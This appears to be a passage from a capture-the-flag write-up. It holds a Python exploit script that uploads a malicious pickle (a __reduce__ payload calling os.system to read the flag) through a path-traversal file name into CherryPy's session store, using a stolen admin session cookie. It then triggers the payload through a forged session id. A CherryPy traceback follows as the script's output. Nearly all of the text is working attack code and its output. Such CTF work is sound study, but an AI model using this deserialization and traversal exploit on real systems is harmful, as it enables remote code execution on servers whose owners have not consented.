 ```py
import requests, pickle, io, os

HOST, PORT = "127.0.0.1", 1337
CHALLENGE_URL = f"http://{HOST}:{PORT}"
ADMIN_SESSION = "session-id-exfiltrated-from-dns"

class PickleRCE(object):
    def __reduce__(self):
        return (os.system,("/readflag > /app/static/flag.txt",))

payload = pickle.dumps(PickleRCE())
pickle_file = io.BytesIO(payload)
pickle_file.name = "../../../app/sessions/session-injected"
files = {
    "file": (pickle_file.name, pickle_file, "application/octet-stream")
}
cookie_data = {
    "session_id": ADMIN_SESSION
}
requests.post(f"{CHALLENGE_URL}/upload_file", cookies=cookie_data, files=files)
cookie_data = {
    "session_id": "injected"
}
requests.post(f"{CHALLENGE_URL}/admin", cookies=cookie_data)
```

A script like this will cause an error on cherrypy's session code:

```
[05/Jan/2025:14:17:25] HTTP 
Traceback (most recent call last):
  File "/usr/local/lib/python3.11/site-packages/cherrypy/_cprequest.py", line 659, in respond
    self._do_respond(path_info)
  File "/usr/local/lib/python3.11/site-packages/cherrypy/_cprequest.py", line 718, in _do_respond
    response.body = self.handler()
                    ^^^^^^^^^^^^^^
  File "/usr/local/lib/python3.11/site-packages/cherrypy/lib/encoding.py", line 223, in __call__
    self.body = self.oldhandler(*args, **kwargs)
                ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/local/lib/python3.11/site-packages/cherrypy/_cpdispatch.py", line 54, in __call__
    return self.callable(*self.args, **self.kwargs)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/app/app.py", line 88, in admin
    username = cherrypy.session.get('username')
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/local/lib/python3.11/site-packages/cherrypy/lib/sessions.py", line 362, in get
    self.load()
  File "/usr/local/lib/python3.11/site-packages/cherrypy/lib/sessions.py", line 287, in load
    if data is None or data[1] < self.now():
                       ~~~~^^^
TypeError: 'int' object is not subscriptable
[05/Jan/2025:14:17:25] HTTP 
Request Headers:
  Remote-Addr: 172.17.0.1
  HOST: 127.0.0.1:1337
  USER-AGENT: python-requests/2.25.1
  ACCEPT-ENCODING: gzip, deflate
  ACCEPT: */*
  CONNECTION: keep-alive
  COOKIE: session_id=injected
  Content-Length: 0
```
